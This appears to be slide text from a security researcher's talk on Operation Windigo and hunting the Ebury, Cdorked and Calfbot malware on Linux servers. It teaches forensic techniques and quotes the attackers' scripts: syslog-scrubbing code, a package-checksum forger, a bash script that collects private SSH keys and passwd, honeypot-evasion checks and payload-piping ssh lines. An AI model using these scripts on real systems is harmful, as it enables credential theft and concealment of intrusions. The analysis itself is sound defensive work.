

# ipcs -m
------ Shared Memory Segments --------
key shmid owner perms bytes nattch
[...]
0x000010e0 465272836 root 600 3282312 0
# ipcs -m -p
------ Shared Memory Creator/Last-op PIDs --------
shmid owner cpid lpid
[...]
465272836 root 15029 17377
# ps aux | grep 15029
[...]
root 15029 0.0 0.0 66300 1204 ? Ss Jan26 0:00 /usr/sbin/sshd
# shmcat -m 465272836 > shm_dumpHunting Malware on Linux Production Servers
The Windigo Backstory
Olivier Bilodeau, ESET (@obilodeau)
:~$ apropos
Reminder: Operation Windigo
Finding Linux/Ebury
Case expansion: Honeynet
Deployment and lack of persistence
Escalading the Linux/Calfbot (Spambot)
Case expansion: Attacks on C&C encrypted trafic
Operators network evasion
:~$ whoami
Olivier Bilodeau
Malware Researcher at ESET
InfoSec Lecturer at ETS University in Montreal Canada
Previously Perl developer, Sysadmin, …
I have been doing CTFs for a while

Co-founded MontreHack local CTF training initiative
What is Operation Windigo?
Crimeware operation consisting of several malware components - Linux/Ebury, Linux/Cdorked and Perl/Calfbot - where the infrastructure is mostly operated on compromised servers.
Operation Windigo
a joint investigation effort


Linux/Ebury
OpenSSH backdoor
Before: replacing original binaries
Then: replaces libkeyutils library and hooks OpenSSH address space
Now: replaces libkeyutils library which load lbns2.so and hooks OpenSSH address space
Provides a shell to the operators
Steals SSH credentials and keys
When connecting to and from machine
Linux/Cdorked
httpd/nginx/lighttpd backdoor
Replacing binaries
Redirects end-users to exploit kits or adult reference programs
Stealthy: Only once per IP per day (configurable)
Perl/Calfbot
Perl spamming daemon
Deletes itself when running, resides only in memory
Hides as
crond
Compromised infrastructure

How does it expand?

How can it do so?

Why advanced?
Stealth
close to no disk persistence
uses shared memory
hooks into binaries
do not affect existing services
Effective
large number of compromised servers
validates spamming
maximizes available server resources
Protip
Shared memory (
shm) analysisipcs
Protip
Money trail
Install malware on Windows end-users
Exploit Kit: Flashpack, Blackhole, RIG
Win32/Glupteba (more spam capability)
Spam
Mostly adult affiliate programs links
Some Casino
Web-site redirections to adult affiliate programs
Impact
25 000+ compromised servers
500 000 browser redirections per day (20% go to exploit packs)
35M+ spam sent per day
kernel.org infected at some point in 2011
Recap
Operation Windigo is real
It’s all operated on compromised servers
Stop using passwords, consider Two-Factor Auth
Shared memory:
ipcs,shmcat
Finding Linux/Ebury
We analyzed Cdorked (hat tip Sucuri)
Blog post in Spring 2013
Then found SSH backdoor samples
Same crypto code


Cdorked | Ebury
From there
Reversed the domain generation algorithm (DGA)
Had access to exfiltration server
Witnessed 7000 infected servers
Access to compromised systems through notifications
Case expansion
How to spy on a malicious user with the same privileges?
syslog: omits logging
package manifests: tampered
tcpdump: Ebury stops on
IFF_PROMISC, ssh is encryptedcore dumping processes and shared memory: long
auditd!
Protip
The Linux audit framework provides an auditing system that reliably collects information about any security-relevant (or non-security-relevant) event on a system.
Using it we were able to gather intelligence without tipping off the malware
group. We logged all execve calls.
Protip
type=EXECVE msg=audit(1373838239.340:4474200): argc=4 a0="rm" a1="-f" a2="-f" a3="/tmp/q"
type=CWD msg=audit(1373838239.340:4474200): cwd="/home/tmpp/openssh-5.9p1"
type=PATH msg=audit(1373838239.340:4474200): item=0 name="/bin/rm"
\- inode=22282288 dev=08:01 mode=0100755 ouid=0 ogid=0 rdev=00:00
type=PATH msg=audit(1373838239.340:4474200): item=1 name=(null) inode=4456796
\- dev=08:01 mode=0100755 ouid=0 ogid=0 rdev =00:00
type=SYSCALL msg=audit(1373838239.341:4474201): arch=c000003e syscall=59
\- success=yes exit=0 a0=1f29d40 a1=1eec5f0 a2=1f 03ec0 a3=7fffd6be9a60
\- items=2 ppid=13403 pid=21287 auid=501 uid=0 gid=0 euid=0
\- suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty =pts0 ses=128232 comm="touch" exe="/bin/touch" key=(null)
type=EXECVE msg=audit(1373838239.341:4474201): argc=4 a0="touch" a1="-r"
\- a2="/etc/ssh/sshd_config" a3="/etc/ssh/ssh_config"Protip
On non-ascii arguments it switches to hex
type=EXECVE msg=audit(1373837952.278:4473290): argc=26 a0="gcc" a1="-g"
a2="-O2" a3="-Wall" a4="-Wpointer-arith" a5="-Wuninitialized"
a6="-Wsign-compare" a7="-Wformat-security" a8="-Wno-pointer-sign"
a9="-Wno-unused-result" a10="-fno-strict-aliasing" a11="-fno-builtin-memset"
a12="-fstack-protector-all" a13="-I." a14="-I."
a15=2D445353484449523D222F6574632F73736822 a16=2D445F504154485F5353485F50
524F4752414D3D222F7573722F6C6F63616C2F62696E2F73736822
[...]
a21=2D445F504154485F5353485F5049444449523D222F7661722F72756E22
a22=2D445F504154485F505249565345505F4348524F4F545F4449523D222F7661722F656D70747922
a23="-DHAVE_CONFIG_H" a24="-c" a25="rsa.c"
$ ipython
in [1]: ('2D445F504154485F5353485F504B435331315F48454C504552'
'3D222F7573722F6C6F63616C2F6C6962657865632F7373682D'
'706B637331312D68656C70657222').decode('hex')
Out[2]: '-D_PATH_SSH_PKCS11_HELPER="/usr/local/libexec/ssh-pkcs11-helper"'Missing out
Still not entirely satisfied
Going out-of-band
Built a man-in-the-middle ssh gateway
Operators don’t have Servers' HostKeys
So it could work!
We leaked credentials
we waited…
And it worked!
As simple as that
/--------------- <CLOUD> --------------------\
WAN DMZ
Internet <---> gateway <---> Server
(mitm-ssh) (some fake workload)
\--------------- </CLOUD> -------------------/Devops operators?
Found very interesting monitoring and deployments scripts
Interesting usage (SSH stream redirections):
cat payload.pl | ssh victim perl
# or
cat payload.sh | ssh victim bashRecon / Deployment scripts
Written in Perl
Always reports to
STDOUTErrors
Status
Perl scripts
Not obfuscated
But as readable as Perl can be

Eliminates evidence
`mkdir -p /home/tmpq`; $tfile = '/home/tmpq/q3def';
@blist=`find /var/log -type f -mtime -1 -size +100M -ls`; print @blist if @blist;
@logs=`cat /etc/syslog.conf|grep -vi \"#\"|grep -vi dev`;
foreach (@logs) {$logs{$1}++ if m|.*?(/.+)| and not m|/mail| }
foreach $file (keys %logs) {
next if checktime($file); # print "Check $file\n";
$system="cat $file|egrep -i \"$n_date\"|egrep -i \"$string\""; #print "$system\n";
$test=`$system`; print "Found in $file. Try to correct\n" if $test; next unless $test;
$system="cat $file|egrep -vi \"$n_date\">$tfile;cat $file|egrep \"$n_date\"|egrep -vi \"$string\"\>>$tfile;cat $tfile>$file;rm -f $tfile";
# print "$system\n"; #!
system($system) }Protip
Reverse-engineering Perl
Use
perltidyto prettify PerlRename variables
vim: * then
cimthen (nthen.).repeat()or your search/replace of
$EDITOR
For packed scripts use
B::Deparse
scripts (cont)
Checks for LD_PRELOAD trickery
Various restrictive
sshconfigurationsBSD jails
if (-l '/bin') {
print "\n\tlALERT!!! /bin is link, seems like bsd jail\n";
$alert++
}CPanel, BRadmin, Nagios ipcs plugin, auditd
Recon script (cont)
Generic
sshhoneypots
@sd = `strings /usr/sbin/sshd |grep -e "^/usr/local/libexec"`;
chomp @sd;
if (@sd) { print "\n\tALERT!!! , ".join("|",@sd)."\n" }
my $ppid=getppid;
my $pb=readlink("/proc/$ppid/exe");
if ($pb ne '/usr/sbin/sshd') {
print "\n\tlALERT!!! parent:$pb, $ppid\n";
$alert++
}Recon script (cont)
Detects available tools (pkg mgmt, gcc, patch, …)
Check for header files to compile OpenSSH
Check if Ebury is already installed
Deployment script
Uses Perl’s DATA to pass files through
ssh
open(TAR,"| tar zxf - $ln $sl");
binmode(DATA);
while(<DATA>) {
print TAR $_;
}
close TAR;
__DATA__
^_<8b>^H^@VÃÇS^@^Cí½ X^TÇÖ0Ü3Ì("0hÀ¨^Q^]^U#î<8e><82>+( è h^@^E<
8c>¸¯<88>^K^Fg^T^W^PÒ`hÚ6ÞKÌÍ¢Ù4Ñ71jbôÆ^]\@<8c>^Z%Æ%j$Æhã<98><88><
9a>¸kÿç<9c>ê<86><81>ÈûÝÿû<9e>÷{<9e>ÿùimªêÔ©Sû©sªjúÌ<9e>9yñâ^^<96>i
<93>¹ÿ¹§;<½^B^BÈ<85>§<86>Û»gïÀî<9c>¥GÏ^<96>Þ^AÝ^CÁßÝbéÙ£^Ggîþ?X¦ÊÇ
>ß6)ÕlæRSRlÿ^]Þÿ*þÿ£Ï²<88>¨Áz<9d>®2ìÂ^Mà0Ô½1^K<87>¨pÿתÒ<84>p}¸zð÷Deployment script (cont)
Altering package management manifests
sub fix_md5 {
my @df = glob("/var/lib/dpkg/info/libkeyutils1*.md5sums");
get_md5();
open( $fh, "<$df" );
my @q = <$fh>;
close $fh;
for (@q) {
$c++ if s|\S+ $d1/$rfile\n|$md5 $d1/$rfile\n|
}
open( $fh, ">$df" );
print $fh @q;
close $fh;
print "md5fix: fixed lines: $c\n";
}Daily monitoring script
Bash
Grabs keys, known hosts, user ssh configs
echo __% Passwd
cat /etc/passwd
# [...]
ud=`awk -F':' '{print $6}' </etc/passwd|sort -u`;
echo __% KHosts
for f in $ud;do cat $f/.ssh/known_hosts 2>/dev/null;done
echo __% SSHConf
for f in $ud;do cat $f/.ssh/config 2>/dev/null && echo _%__${f};done
echo __% SSHKeys_priv
for f in $ud;do
[ -e $f/.ssh/id_rsa ] && { echo _%__$f/.ssh/id_rsa;cat $f/.ssh/id_rsa;echo; }
[ -e $f/.ssh/id_dsa ] && { echo _%__$f/.ssh/id_dsa;cat $f/.ssh/id_dsa;echo; } doneOther scripts findings
Modifies SELinux policy
Various styles of installation
precompiled libraries
on-site compilation
packages
Looks for over 40 backdoors/rootkits
Recap
full interaction honeypot allowed us to move further
auditd,mitm-sshare good toolsthis malware group knows Linux and have seen stuff
How we first met Perl/Calfbot
Replay attack on one of those URLs
Built Calfbot fake client using operator’s own code
First layer C&C on Ebury infected machines
How big is this thing?
Bot reports the # of successful spam sent

The situation is
We have shell access to the current first layer C&C
Traffic is SSL and goes through an nginx reverse proxy
nginx binary is gone, config is gone but not the private key!
Remote end of the proxy is beyond reach (no collaboration)
Our move
Dumped process memory (
pidvianetstat)gcore pid
Extracted binary from
/procExtracted config from dump and binary
Modified config to weaken SSL suite
- ssl_ciphers HIGH:!aNULL:!MD5; + ssl_ciphers AES128-SHA;
Protip
procallows you to extract deleted executables
# normal
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx
$ sha1sum /home/olivier/src/nginx-1.5.3/nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 /home/olivier/src/nginx-1.5.3/nginx
$ sudo rm /home/olivier/src/nginx-1.5.3/nginx
# removed
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx (deleted)
$ sudo cp /proc/17902/exe ./nginx
$ sha1sum nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 nginxProtip
We’ve seen calfbot hide as
crondinps -efoutputSimple in Perl:
$0 = "crond";
procallows also to inspect for that
# clean
$ pgrep -x "cron" | sudo xargs -I '{}' ls -la "/proc/{}/exe"
lrwxrwxrwx 1 root root 0 Sep 25 13:35 /proc/1389/exe -> /usr/sbin/cron
# suspicious
$ pgrep -x "cron" | sudo xargs -I '{}' ls -la "/proc/{}/exe"
lrwxrwxrwx 1 root root 0 Sep 25 13:21 /proc/666/exe -> /usr/bin/perlProtip
lsof: to list all files used by processnetstat: to list his socketsipcs: shared memorystrace: what it is doing
Protip
Always copy everything from /proc/$pid before killing a process
Our move (cont)
Replace config and original binary
nginx
SIGHUPDelete config and binary
SUCCESS

Recap
You can mitm the bad guys
If you have permission
procis awesomebring binaries back from the dead
copy it before killing a malicious process
Use
lsof,netstat,straceto understand processes
Network evasion
SSH tunnels
nginx reverse proxies
IP in IP tunnels
3Proxy
SSH tunnels
Through infected servers
Used to send spam

nginx reverse proxies
Through infected servers
Layers of redirection in front of the Calfbot C&C
Layers of redirection in front of the Exploit Kit hosting
Binary often in odd location (
/boot/sbin/nginx)
nginx Cdorked config example
upstream backend_servers {
server xx.xxx.118.201:xx05 max_fails=1 fail_timeout=600s weight=25
[... other servers ...]
}
server {
listen 80
access_log /dev/null
location / {
proxy_pass http://backend_servers
proxy_set_header Host $http_host
proxy_redirect off
proxy_set_header X-Real-IP $remote_addr
proxy_set_header X_Forwarded-For $proxy_add_x_forwarded_for ; X_For.. is not a typo
[... performance things ...]
}
}nginx Calfbot config example
...
upstream backend_servers {
server xxx.x.36.17:4xx35;
}
...
server {
listen 19xx;
listen 443;
ssl on;
ssl_certificate /boot/conf/certificate.pem;
ssl_certificate_key /boot/conf/secret_key.key;
...
}Protip
ps -efnetstat -anp
Example netstat output
Proto Recv-Q Send-Q Local Address Foreign Address State Timer
tcp 0 0 0.0.0.0:443 0.0.0.0:* LISTEN keepalive (0.00/0/0)
tcp 0 0 xxx.xxx.139.250:443 xxx.x.59.72:55765 SYN_RECV on (2.89/0/0)
tcp 0 0 xxx.xxx.139.250:443 xx.xxx.236.11:47401 SYN_RECV on (2.89/0/0)
tcp 0 0 0.0.0.0:3306 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:1905 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:25 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 xxx.xxx.139.250:443 xxx.xxx.141.83:35679 TIME_WAIT timewait (52.61/0/0)
tcp 0 0 xxx.xxx.139.250:22 xx.xx.127.142:27255 ESTABLISHED keepalive (5947.19/0/0)
tcp 0 0 xxx.xxx.139.250:443 xxx.xxx.103.38:55600 TIME_WAIT timewait (51.27/0/0)
tcp 0 0 xxx.xxx.139.250:443 xx.xx.161.2:46744 TIME_WAIT timewait (36.74/0/0)
tcp 0 0 xxx.xxx.139.250:443 xxx.xxx.103.38:55601 TIME_WAIT timewait (53.44/0/0)
tcp 0 50680 xxx.xxx.139.250:443 xx.xxx.75.39:23944 ESTABLISHED on (0.32/0/0)
tcp 0 0 xxx.xxx.139.250:443 xx.xx.161.2:46740 TIME_WAIT timewait (25.77/0/0)
tcp 0 688 xxx.xxx.139.250:56624 xxx.x.36.17:4xx35 ESTABLISHED on (0.72/0/0)
tcp 0 0 xxx.xxx.139.250:22 xx.xx.127.142:27302 ESTABLISHED keepalive (6115.04/0/0)
tcp 0 0 xxx.xxx.139.250:56455 xxx.x.36.17:4xx35 TIME_WAIT timewait (9.20/0/0)
tcp 0 0 xxx.xxx.139.250:22 xx.xx.127.142:27398 ESTABLISHED keepalive (7092.41/0/0)
tcp 0 0 xxx.xxx.139.250:56446 xxx.x.36.17:4xx35 TIME_WAIT timewait (5.72/0/0)
tcp 0 0 xxx.xxx.139.250:56568 xxx.x.36.17:4xx35 TIME_WAIT timewait (41.33/0/0)
tcp 0 0 xxx.xxx.139.250:443 xxx.x.177.54:33968 ESTABLISHED off (0.00/0/0)
tcp 0 0 xxx.xxx.139.250:56526 xxx.x.36.17:4xx35 TIME_WAIT timewait (26.33/0/0)
tcp 0 0 xxx.xxx.139.250:56463 xxx.x.36.17:4xx35 TIME_WAIT timewait (10.97/0/0)IP in IP tunnels
Through infected servers
Used to hide all sort of traffic (ssh, browser, etc.)
Layers of tunneling found
What are IP in IP tunnels
Handled by the kernel
Created with
ifconfigoriproute2suitePoint-to-point link that encapsulate IP inside IP
Transport independant
Inside the tunnels
Doing TTL and traffic analysis we found.
The machines' OS using the tunnels (FreeBSD, Windows, Linux)
Mostly ssh, ftp
# of hops
Several GB of traffic (3 RX / 8 TX)
Monitoring Ebury infected machines
Trying passwords on Internet facing ssh / ftp
Protip
ifconfigand look for:Link encap:IPIP Tunnelip tunnel show
tunl0: ip/ip remote any local any ttl inherit nopmtudisc
tun10: ip/ip remote xx.xx.201.34 local xxx.xxx.232.18 dev eth0 ttl inherit
sit0: ipv6/ip remote any local any ttl 64 nopmtudiscip route show
10.12.12.0/30 dev tun10 proto kernel scope link src 10.12.12.2iptables -t nat -L -nvpost-routing source NAT to map tunnel traffic to eth0 IP
iptables
Rules in the NAT table to bounce traffic of compromised servers
-A PREROUTING -d xx.xx.51.14/32 -p udp -m udp --dport 53 -j DNAT --to-destination xxx.xx.225.200:53
-A POSTROUTING -d xxx.xx.225.200/32 -p udp -m udp --dport 53 -j SNAT --to-source xx.xx.51.14Protip
Audit your iptables rules
iptables -t nat -L -nv3Proxy
Tiny free cross-platform multi-protocol proxy server
Not malware (strings not obfuscated)
Sometimes hidden as
crond
Protip
strings
$ strings crond | grep 3proxy
Documentation and sources: http://www.security.nnov.ru/soft/3proxy/
3proxy@ps -efnetstat -anp
Recap
Look for
kernel-level: IP in IP, iptables
binaries: rogue nginx, 3Proxy, SSH tunnels
With
iptables,ip tunnel show,ps,netstat
Indicators of Compromise
We released so-called IOCs
Closing words
Be creative on the bad guys (legally)
Out-of-band cannot lie
Native tools can help a lot
Send us anything suspect you find!
:~$ logout
Thanks!
Questions?